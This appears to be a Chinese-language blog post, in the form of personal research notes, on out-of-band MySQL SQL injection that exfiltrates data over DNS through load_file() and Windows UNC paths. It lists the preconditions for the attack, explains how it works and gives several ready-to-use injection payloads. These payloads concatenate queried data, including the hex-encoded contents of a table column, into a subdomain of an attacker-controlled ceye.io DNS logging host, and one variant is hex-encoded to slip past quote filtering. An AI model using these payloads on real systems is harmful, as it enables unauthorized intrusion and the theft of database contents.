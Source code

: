 ```yaml
---
layout: post
title: "OOB注入(DNS外传)"
date:  ‎2018-02-13 19‎:‎28‎:‎13 +0800
categories: technology
tags: mysql dns
img: https://i.loli.net/2018/07/09/5b434692472ed.png
---
```

#关于mysql OOB注入的研究
## 应用场景：


 1.注入点无回显，只能靠盲注，但盲注太慢又不想等 =_=.
 2.mysql （Mysql版本>=5.5.53 ）开启文件导入导出
   可以用该语句判断`show global variables like '%secure%';`
           如果secure_file_priv值为null,则未开启，如果为空，则开启；如果为目录，说明只能导入导出该文件夹下内容。
 3.目标是windows系统（UNC路径） 基本利用语句：
'union select 1,load_file(concat('\\\\',(database()),'.g8vbmp.ceye.io\\abc')),3;'
----
##为什么要这样写？：
  1.在windows下，可以使用以下语句来访问UNC路径，即请求网络上的资源（主要在局域网中）**\\server\\resource**  又因为'\'为转义字符，需要重复输入达到转义自身的目的。***'\\\\' -->'\\'***
  2.load_file()函数可以访问计算机上的资源，也可以请求UNC路径，如果将需要查询的数据拼接到UNC路径当中，那么数据可以凭借服务器对特定资源的请求而被外带出去。
  3.既然数据已经有了外传的途径，那么只需在包含了数据的请求传输途中做手脚即可。服务器通信的基础是IP,而DNS提供了域名->IP的解析服务，我们将数据拼接在了域名中，DNS服务器势必就会接触到数据，所以数据外传的关键就是DNS。架设一台我们可控的DNS服务器并监听记录下传来的请求就能获取数据。
     附图一张，简述原理。
![Image.jpg](https://i.loli.net/2018/07/09/5b43474f61f4f.jpg)
####   PS:此处假设有3个字段，2为输出点，g8......为ceye.io申请的域名，database()处即为需要外传的查询语句。
#### PSS:很奇怪的是，version()可以外传，但user()却不能，一张包含title,content字段的表，只有title可以外传，content同样不行。
     ----
     经过摸索，初步得出结论，外传的数据中如果含有空格或特殊字符则无法外传。可以考虑hex。
     测试语句：
'''
1.union select 1,load_file(concat("\\\\",(select hex(content) from pentest.news limit 1,1),'.g8vbmp.ceye.io\\abc')),3
2.id =(case when (1=1) then (select load_file(concat('\\\\',(select database()),'.g8vbmp.ceye.io\\qw'))) else 1*(select 1 from dual union select 2 from dual) end);'

可以绕过单双引号过滤的语句：
id =11 union select 1,load_file(concat(0x5c5c,(select hex(content) from pentest.news limit 1,1),0x2e6675636b6766772e636579652e696f5c5c61626378)),3;

'''
奇怪的是，这些语句只能用一次，第二次再使用就失效了
